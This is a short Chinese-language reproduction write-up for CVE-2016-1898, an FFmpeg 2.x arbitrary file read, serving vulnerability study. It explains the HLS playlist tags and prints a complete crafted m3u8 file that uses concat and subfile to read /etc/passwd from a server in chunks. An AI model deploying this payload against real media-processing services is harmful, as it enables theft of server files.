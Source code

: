 # CVE-2016-1898 Ffmpeg 任意文件读取漏洞

### 一、漏洞简介

CVE-2016-1898可以读取文件任意行

* #EXTM3U 标签是m3u8的文件头，开头必须要这一行
* #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
* #EXT-X-VERSION:2 该标签可有可无
* #EXTINF:6, 表示该一段TS流文件的长度
* #EXT-X-ENDLIST 这个相当于文件结束符

### 二、漏洞影响

FFmpeg 2.x

### 三、复现过程

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对subfile的支持(https://url/ffmpeg-protocols.html#subfile )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：


```bash
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
#EXT-X-ENDLIST
```